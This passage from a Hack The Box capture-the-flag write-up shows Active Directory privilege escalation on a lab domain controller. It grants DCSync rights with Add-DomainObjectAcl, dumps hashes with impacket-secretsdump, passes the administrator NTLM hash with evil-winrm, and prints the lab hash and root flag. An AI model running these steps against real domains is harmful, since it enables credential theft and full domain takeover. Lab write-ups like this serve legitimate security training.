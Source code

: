 ```powershell
$cred = New-Object System.Management.Automation.PSCredential('htb\bobby', $pass)
```

```powershell
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bobby -Rights DCSync
```

![Image](/assets/Screenshot 2024-09-15 at 2.37.18 AM.png)

Now, on our attacker machine, use `impacket-secretsdump` to gather hashes so that we can pass them with `evil-winrm`. (For reference, I tried this same thing with manually installed `impacket`, but no dice. Maybe Python configuration or something? Look into it.)

```
impacket-secretsdump htb.local/bobby:password@10.10.10.161
```

![Image](/assets/Screenshot 2024-09-15 at 2.37.42 AM.png)

Luckily, we can pass the hash with `evil-winrm`, so long as we annotate the correct path with the ruby file. Pass with: 

`KALI: ruby /var/lib/gems/3.1.0/gems/evil-winrm-3.5/evil-winrm.rb -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

![Image](/assets/Screenshot 2024-09-15 at 2.46.04 AM.png)

![Image](/assets/Screenshot 2024-09-15 at 2.41.16 AM.png)

Mosey around to your flag!

`ROOT:bc07f404616302a5b807f47e1d280a7a`

#windows #easy #manual 

